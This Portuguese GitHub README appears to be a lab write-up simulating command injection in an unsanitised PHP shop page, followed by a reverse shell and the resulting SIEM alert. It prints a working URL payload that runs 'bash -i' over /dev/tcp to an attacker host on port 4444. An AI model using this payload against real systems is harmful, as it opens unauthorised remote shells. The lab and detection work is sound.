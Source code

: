 # Introdução

Aqui, faremos uma simulação de Reverse Shell, que em resumo, é uma técnica que invasores utilizam para executar códigos na máquina da vítima, o processo é feito processo processo inverso: o atacante faz um comando para ouvir conexões em uma porta especifica, e faz a máquina interna se conectar a máquina exterior do atacante. Aqui, utilizaremos o comando ncat para escutar uma porta específica, e de técnicas de Command Injection.


# Contexto

Para simularmos o ataque, primeiramente é criado um script simples de php, simulando uma url de website de uma loja que posuenm produtos, porém, com nenhuma validação ou sanitização de entrada aceitando qualquer entrada do usuário.

![image](https://github.com/user-attachments/assets/51b63c9f-b515-4490-b645-75d53b627590)

Dito isso, primeiro faremos o teste para o command injection:
![Screenshot From 2025-07-03 00-58-59](https://github.com/user-attachments/assets/a8b54327-77a2-44fe-9fb8-332f19bc9910)

Em vez de um ID de produto colocamos "whoami" que retornou com sucesso.

portanto, executaremos primeiro vamos preparar um listener no kali: 

![image](https://github.com/user-attachments/assets/59fd1404-7254-4243-ab66-82c0a5d69f15)


E agora, utilizaremos esse payload:

```
http://1.1.1.1/loja.php?produto=bash+-c+%27bash+-i+%3E%26+/dev/tcp/1.1.1.2/4444+0%3E%261%27
```

Que executa um comando um bash que abre uma shell remota, permitindo executar comandos.

![Screenshot From 2025-07-03 01-26-02](https://github.com/user-attachments/assets/87cba5bd-f60a-4d1c-b45b-11b57a386ab5)

Em nosso SIEM encontramos o seguinte alerta:

![Screenshot From 2025-07-03 01-49-24](https://github.com/user-attachments/assets/cb8ed75a-93a5-4a1e-8e21-6cdefd0a0a93)


> Observação: o Snort foi desativado nessa simulação, caso estivesse ligado, o IP do atacante seria bloqueado e gerado os seguintes alertas:

![image](https://github.com/user-attachments/assets/434b4cc1-2170-4459-a57e-5a2226e2ac66)
